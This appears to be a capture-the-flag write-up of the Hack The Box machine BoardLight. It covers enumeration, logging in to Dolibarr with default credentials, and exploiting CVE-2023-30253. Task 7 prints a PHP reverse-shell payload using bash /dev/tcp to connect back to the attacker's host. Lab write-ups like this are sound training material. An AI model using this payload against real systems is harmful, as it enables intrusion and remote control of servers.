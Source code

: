 # Tasks

[**1. How many TCP ports are listening on BoardLight?**](#task-1)

[**2. What is the domain name used by the box?**](#task-2)

[**3. What is the name of the application running on a virtual host of board.htb?**](#task-3)

[**4. What version of Dolibarr is running on BoardLight?**](#task-4)

[**5. What is the default password for the admin user on Dolibarr?**](#task-5)

[**6. What is the 2023 CVE ID for an authenticated vulnerability that can lead to remote code execution in this version of Dolibarr?**](#task-6)

[**7. What user is the Dolibarr application running as on BoardLight?**](#task-7)

[**8. What is the full path of the file that contains the Dolibarr database connection information?**](#task-8)

[**9. User Flag**](#user-flag)

[**10. What is the name of the desktop environment installed on Boardlight?**](#task-10)

# Tools Used

- nmap
- ffuf
- linpeas

# Skills Used

- Subdomain enumeration

# Solutions

## Task 1

![image](https://github.com/user-attachments/assets/e3d552c9-d8c8-4713-a4c4-a3b963cbbc6c)

**Answer: 2**

## Task 2

![image](https://github.com/user-attachments/assets/2dac6e05-5e87-4fdc-badd-3d9dda4a345e)

It was right here lmao. No need for _ffuf_.

## Task 3

Used hint, told me to do _subdomain enumeration_, so:

![image](https://github.com/user-attachments/assets/dbed45d6-09f1-4416-9a11-88fbaf5958fa)

Putting that into ```/etc/hosts```, this is what I found:

![image](https://github.com/user-attachments/assets/6effb3ba-750f-4ab0-8a70-438af358f207)

**Answer: Dolibarr**

## Task 4

Reference the image in the previous task.

**Answer: 17.0.0**

## Task 5

I just searched on google ```dolibarr 17.0.0 default credentials``` and found a few contenders. Turns out ```admin:admin``` was it lmao.

![image](https://github.com/user-attachments/assets/fe22acf5-6597-4b98-92b4-59b80d55172b)

There was also ```admin:changeme123```, but that didn't work so yeah.

**Answer: admin**

## Task 6

![image](https://github.com/user-attachments/assets/53b2ee26-bf91-439c-8359-a89bdae02a44)

Standard google search for the _CVE_ lmao.

**Answer: CVE-2023-30253**

## Task 7

To exploit this, I ditched the earlier github repo I found since the _PoCs_ don't usually work for me cuz the domain's IP in these labs are usually stored locally on my machine lmao.

Anyways, I read [**this**](https://www.vicarius.io/vsociety/posts/exploiting-rce-in-dolibarr-cve-2023-30253-30254) instead though to better understand what to exploit. I just have to stick a _PHP Shell_ inside the _HTML 
page_ of a website I create in the admin page, but instead of ```<php ?>```, I need to use uppercase, so it looks like this instead: ```<PHP ?>```.

So, getting a revshell from _PentestMonkey_, here's what I did:

![image](https://github.com/user-attachments/assets/c065a992-434b-4c9f-b425-5871abdb0fe6)

For some reason _PentestMonkey_ can't spawn the shell :/

I'm going back to that git repo to see if I can use it now that I understand this _CVE_ more.

![image](https://github.com/user-attachments/assets/44d0824f-b5da-4e52-b5f3-769a63360c32)

This is what I added to the page content in the website I made:

```
<?pHp system(\"bash -c 'bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1'\"); ?>
```

Be sure to make it properly though lmao, I forgot to make the right changes:

```
<?pHp system(\"bash -c 'bash -i >& /dev/tcp/[lhost]/[lport] 0>&1'\"); ?>
```

Now that that's done though, we FINALLY got a revshell.

![image](https://github.com/user-attachments/assets/fd182959-62ff-43eb-aaae-8a9551684118)

**Answer: www-data**

## Task 8

Before we proceed, I wanna stabilize the shell first (again), so:

```
Stabilization Process:

1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. CTRL + Z
4. stty raw -echo;fg
```

Now that that's done, let's get _linpeas_ in here.

Just a sidenote btw.

![image](https://github.com/user-attachments/assets/bf70644a-df9c-40ae-9790-21d3de0a4de7)

This here is interesting. I know the exploit we need is the first one suggested after reading the machine info beforehand, but for **beyond root**, it's interesting to see other attacks possible.

Anyways, let's continue to find that database connection file.

![image](https://github.com/user-attachments/assets/fa7f4e21-ce08-4862-97f9-2b1e188a6d94)

After seeing this, I'm pretty sure I need to look in ```/var/www/html/crm.board.htb/```. Let's continue looking for now before manually enumerating it.

A few minutes later, I couldn't find it. Time to enumerate it myself.

Found it.

**Answer: /var/www/html/crm.board.htb/htdocs/conf/conf.php**

## User Flag

![image](https://github.com/user-attachments/assets/23dfb627-ee8d-4f50-93e8-0495dbe2d6f3)

Found this in the _conf.php_ file, let's try using that.

![image](https://github.com/user-attachments/assets/6fd1a0cb-873a-47c2-99e5-e220c4d68cf5)

Yep.

**Answer: 6b51c3c25cea4fc82676d2ff5180940e**

## Task 10

TBC.
